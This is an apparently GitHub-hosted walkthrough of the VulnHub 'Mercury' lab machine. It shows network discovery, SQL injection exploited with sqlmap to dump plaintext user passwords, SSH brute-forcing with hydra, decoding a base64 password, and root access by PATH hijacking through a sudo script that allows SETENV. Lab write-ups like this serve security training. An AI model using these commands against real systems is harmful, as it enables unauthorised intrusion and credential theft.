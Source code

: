 # Mercury

### 1.Get VM IP

```bash
root@kali:arp-scan -I eth0 -l                           
Interface: eth0, type: EN10MB, MAC: 08:00:27:c4:58:52, IPv4: 192.168.56.140
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:40	(Unknown: locally administered)
192.168.56.100	08:00:27:74:2d:92	PCS Systemtechnik GmbH
192.168.56.139	08:00:27:63:63:96	PCS Systemtechnik GmbH
```

The IP address is `192.168.56.139`, let's enumerate it.


### 2.Enumeration

```bash
root@kali: nmap -v -sC -sV 192.168.56.139
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c8:24:ea:2a:2b:f1:3c:fa:16:94:65:bd:c7:9b:6c:29 (RSA)
|   256 e8:08:a1:8e:7d:5a:bc:5c:66:16:48:24:57:0d:fa:b8 (ECDSA)
|_  256 2f:18:7e:10:54:f7:b9:17:a2:11:1d:8f:b3:30:a5:2a (ED25519)
8080/tcp open  http-proxy WSGIServer/0.2 CPython/3.8.2
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: WSGIServer/0.2 CPython/3.8.2
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
```

let's check the web page :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/e2898a20-816f-48cd-bd7c-10524855fb58)

there is nothing interesting, but if you navigate to a random page like `/test`, you will see an error page :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/f0a68882-ead8-4bd5-8324-0f2ac7757258)

on this page, you can see an extra directory `mercuryfacts/` that we are allowed to visit, so let's go there :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/9851de80-4203-40cf-b53a-e36d15db1380)

click on `Load a fact` and you will see the following page :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/491a854f-ad01-414c-8b29-0c0dffaf7e8f)

if you play with the last digit and make it to `2` or `3` or ... you will see new messages :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/b95d504a-3591-4645-9716-c919779e3fbc)

this ca be a sign that these pages are getting called from the database by the number of the fact so adding a single quote :

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/6f5115c8-e4a6-4259-992c-4ab5ce76391b)


yes there is a SQL injection here, the rest is easy as we put the URL into sqlmap :

```bash
root@kali: sqlmap -u http://192.168.56.139:8080/mercuryfacts/1 --batch --dbs

[07:28:50] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] mercury


root@kali: sqlmap -u http://192.168.56.139:8080/mercuryfacts/1 --batch -D mercury --tables
[07:29:31] [INFO] fetching tables for database: 'mercury'
Database: mercury
[2 tables]
+-------+
| facts |
| users |
+-------+


root@kali: sqlmap -u http://192.168.56.139:8080/mercuryfacts/1 --batch -D mercury -T users --dump
[07:30:03] [INFO] fetching entries for table 'users' in database 'mercury'
Database: mercury
Table: users
[4 entries]
+----+-------------------------------+-----------+
| id | password                      | username  |
+----+-------------------------------+-----------+
| 1  | johnny1987                    | john      |
| 2  | lovemykids111                 | laura     |
| 3  | lovemybeer111                 | sam       |
| 4  | mercuryisthesizeof0.056Earths | webmaster |
+----+-------------------------------+-----------+
```

### 3.Gaining Shell

Now that we have usernames and passwords we need to brute-force the SSH service, so save all the usernames into a file called `username.txt`

and all the passwords into a file called `password.txt` and use `hydra` to check the credentials :

```bash
root@kali: hydra -L users.txt -P passwords.txt -e nsr 192.168.56.139 ssh -t 10
```

![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/b1f06b18-dc40-4101-b08b-8dcfbab6872b)

now we can connect to victim using `webmaster:mercuryisthesizeof0.056Earths`

### 4.Privilege Escalation (to linuxmaster)

In home directory of user `webmaster` there is another directory called `mercury_proj` and a file `note.txt` :

```bash
webmaster@mercury:~$ cat mercury_proj/notes.txt 
Project accounts (both restricted):
webmaster for web stuff - webmaster:bWVyY3VyeWlzdGhlc2l6ZW9mMC4wNTZFYXJ0aHMK
linuxmaster for linux stuff - linuxmaster:bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==
```

here is the password for user `linuxmaster` :

```bash
webmaster@mercury:~$ echo 'bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==' | base64 -d
mercurymeandiameteris4880km
```

### 5.Privilege Escalation (to root)

We connect to user `linuxmaster:mercurymeandiameteris4880km` :

```bash
webmaster@mercury:~$ su linuxmaster
Password: 
linuxmaster@mercury:/home/webmaster$
```

check sudo permissions :

```bash
linuxmaster@mercury:/home/webmaster$ sudo -l
[sudo] password for linuxmaster: 
Matching Defaults entries for linuxmaster on mercury:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh
```

we can run the script `/usr/bin/check_syslog.sh` and at the same time set an environment variable, so let's check the content of `check_syslog.sh`

```bash
linuxmaster@mercury:/home/webmaster$ cat /usr/bin/check_syslog.sh
#!/bin/bash
tail -n 10 /var/log/syslog
```

this bash script is calling the `tail` command in relative form which is vulnerable to PE :

```bash
linuxmaster@mercury:~$ echo '#!/bin/bash' > tail
linuxmaster@mercury:~$ echo '/bin/bash' >> tail
linuxmaster@mercury:~$ chmod 777 tail
```

and run the command like this :

```bash
linuxmaster@mercury:~$ sudo PATH=$PWD /usr/bin/check_syslog.sh
bash: groups: command not found
Command 'lesspipe' is available in the following places
 * /bin/lesspipe
 * /usr/bin/lesspipe
The command could not be located because '/usr/bin:/bin' is not included in the PATH environment variable.
lesspipe: command not found
Command 'dircolors' is available in the following places
 * /bin/dircolors
 * /usr/bin/dircolors
The command could not be located because '/usr/bin:/bin' is not included in the PATH environment variable.
dircolors: command not found

root@mercury:/home/linuxmaster# export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/usr/local/go/bin:/root/go/bin/

root@mercury:/home/linuxmaster# id
uid=0(root) gid=0(root) groups=0(root)
```

yes we are now root :

```bash
root@mercury:~# cat root_flag.txt 
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@/##////////@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@(((/(*(/((((((////////&@@@@@@@@@@@@@
@@@@@@@@@@@((#(#(###((##//(((/(/(((*((//@@@@@@@@@@
@@@@@@@@/#(((#((((((/(/,*/(((///////(/*/*/#@@@@@@@
@@@@@@*((####((///*//(///*(/*//((/(((//**/((&@@@@@
@@@@@/(/(((##/*((//(#(////(((((/(///(((((///(*@@@@
@@@@/(//((((#(((((*///*/(/(/(((/((////(/*/*(///@@@
@@@//**/(/(#(#(##((/(((((/(**//////////((//((*/#@@
@@@(//(/((((((#((((#*/((///((///((//////(/(/(*(/@@
@@@((//((((/((((#(/(/((/(/(((((#((((((/(/((/////@@
@@@(((/(((/##((#((/*///((/((/((##((/(/(/((((((/*@@
@@@(((/(##/#(((##((/((((((/(##(/##(#((/((((#((*%@@
@@@@(///(#(((((#(#(((((#(//((#((###((/(((((/(//@@@
@@@@@(/*/(##(/(###(((#((((/((####/((((///((((/@@@@
@@@@@@%//((((#############((((/((/(/(*/(((((@@@@@@
@@@@@@@@%#(((############(##((#((*//(/(*//@@@@@@@@
@@@@@@@@@@@/(#(####(###/((((((#(///((//(@@@@@@@@@@
@@@@@@@@@@@@@@@(((###((#(#(((/((///*@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@%#(#%@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

Congratulations on completing Mercury!!!
If you have any feedback please contact me at SirFlash@protonmail.com
[root_flag_69426d9fda579afbffd9c2d47ca31d90]
```

This is how you can get root on this machine :)





